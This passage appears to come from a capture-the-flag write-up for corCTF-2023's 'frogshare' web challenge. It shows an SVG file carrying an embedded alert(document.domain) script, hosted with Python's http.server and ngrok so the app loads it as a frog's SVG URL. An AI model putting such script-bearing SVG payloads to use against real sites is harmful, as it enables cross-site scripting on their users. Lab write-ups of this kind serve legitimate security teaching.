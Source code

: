 To host the SVG payload, we can use Python's `http.server` module and `ngrok` to do port forwarding:

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2023/web/frogshare)-[2023.07.31|15:22:41(HKT)]
└> cat payload.svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert(document.domain);
  </script>
</svg>
┌[siunam♥Mercury]-(~/ctf/corCTF-2023/web/frogshare)-[2023.07.31|15:22:44(HKT)]
└> python3 -m http.server 80     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
┌[siunam♥Mercury]-(~/ctf/corCTF-2023/web/frogshare)-[2023.07.31|15:23:04(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://2eb1-[...].ngrok-free.app -> http://localhost:80            
[...]
```

**Then, update our frog's "SVG url":**

![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2023/images/Pasted%20image%2020230731152457.png)
